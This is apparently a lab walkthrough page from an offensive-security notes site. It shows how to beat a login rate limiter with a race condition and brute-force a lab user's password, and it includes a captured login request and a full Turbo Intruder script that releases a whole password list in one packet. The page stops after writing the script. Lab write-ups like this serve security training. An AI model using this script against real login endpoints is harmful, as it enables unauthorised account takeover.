

repository: 0x3xp10i73r/offsec-vault · page: web-application-pentesting/race-conditions/bypassing-rate-limits-via-race-conditions/index.html · generator: mkdocs

---
title: "Lab: Bypassing Rate Limits via Race Conditions"
description: "Lab walkthrough: using Turbo Intruder's single-packet attack to fire an entire password wordlist at a login endpoint before its rate limiter can react."
tags:
  - Web
  - Race Conditions
  - Brute Force
---

# Lab: Bypassing rate limits via race conditions

**Goal:** the login mechanism rate-limits repeated failed attempts, but a race condition lets that limit be bypassed. Brute-force the password for `carlos`, then log in to the admin panel and delete the `carlos` user.

## 1. Confirm the rate limiter

Log in as `wiener:peter` to see the normal flow, then try a handful of wrong passwords for `carlos` in sequence — after a small number of failures the application starts rejecting further attempts outright (rate limited), regardless of whether the next guess would have been correct.

![Login page with lab countdown timer](images/bypassing-rate-limits/image.png)

![Login attempt for wiener](images/bypassing-rate-limits/image-1.png)

## 2. Capture a login request

Send a `POST /login` request to Burp. The body carries `csrf`, `username`, and `password` as ordinary form fields:

```http
POST /login HTTP/2
Host: <lab-id>.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=<token>&username=wiener&password=peter
```

![Login request/response, 302 redirect to /my-account](images/bypassing-rate-limits/image-2.png)

## 3. Send the request to Turbo Intruder

Right-click the captured login request and choose **Extensions → Turbo Intruder → Send to turbo intruder**.

![Send to Turbo Intruder context menu](images/bypassing-rate-limits/image-3.png)

## 4. Write a single-packet attack script

Set the target username to `carlos`, mark the password field with `%s`, and paste in a script that queues the entire candidate password list into one gate before releasing them all at once:

```python
def queueRequests(target, wordlists):
    # target supports HTTP/2: use Engine.BURP2 with concurrentConnections=1
    # for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2)

    # candidate passwords pulled from the clipboard wordlist
    passwords = wordlists.clipboard

    # queue every login attempt into gate '1' — nothing is sent yet
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # release every queued request simultaneously, in one TCP packet
    engine.openGate('1')

def handleResponse(req, interesting):
    table.add(req)
```

```text
csrf=<token>&username=carlos&password=%s
```

![Turbo Intruder script editor with the single-packet attack configured](images/bypassing-rate-limits/image-4.png)
